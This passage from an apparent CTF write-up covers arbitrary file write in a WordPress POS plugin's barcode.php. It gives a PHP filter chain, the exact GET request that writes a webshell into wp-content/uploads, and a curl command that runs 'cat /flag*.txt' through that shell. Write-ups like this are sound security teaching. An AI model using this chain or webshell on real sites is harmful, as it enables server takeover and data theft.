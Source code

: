 > Note: Those A's in the front are padding characters. Otherwise, the `<` character will be converted into a different character.

Also, since we want our injected PNG image file is writing to the file system, not into the temporary file (`php://temp`), we need to change the PHP filter chain to have a `write` parameter, and change the `resource` parameter's value to a directory that we want to write into.

Hmm... Which directory should we use? If you remember correctly, directory `/var/www/html/wp-content/uploads` is set to be writable in the `Makefile`:

```bash
[...]
@chmod -R 755 /var/www/html/wp-content/uploads
```

So, we'll need to write the file into that directory.

Therefore, the final filter chain should be like this:

```
php://filter/write=convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|[...]|convert.base64-decode/resource=/var/www/html/wp-content/uploads/webshell.php
```

If we send the following GET request, the injected PHP code should be written into directory `/var/www/html/wp-content/uploads/webshell.php`:

```http
GET /wp-content/plugins/mwb-point-of-sale-pos-for-woocommerce/package/lib/php-barcode-master/barcode.php?filepath=php://filter/write=convert.iconv.UTF8.CSISO2022KR|[...]|convert.base64-decode/resource=/var/www/html/wp-content/uploads/webshell.php HTTP/1.1
Host: 52.77.81.199:9108


```

Which we can finally get the flag via our webshell!

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Sneaky)-[2025.02.26|20:27:18(HKT)]
└> curl -s --get http://52.77.81.199:9108/wp-content/uploads/webshell.php --data-urlencode 'cmd=cat /flag*.txt'
AAAAAAACTF{you_sneaky_arent_you_9b44dfdf81200}
```

- **Flag: `CTF{you_sneaky_arent_you_9b44dfdf81200}`**

## Conclusion

What we've learned:

1. Arbitrary file write via PHP filter chain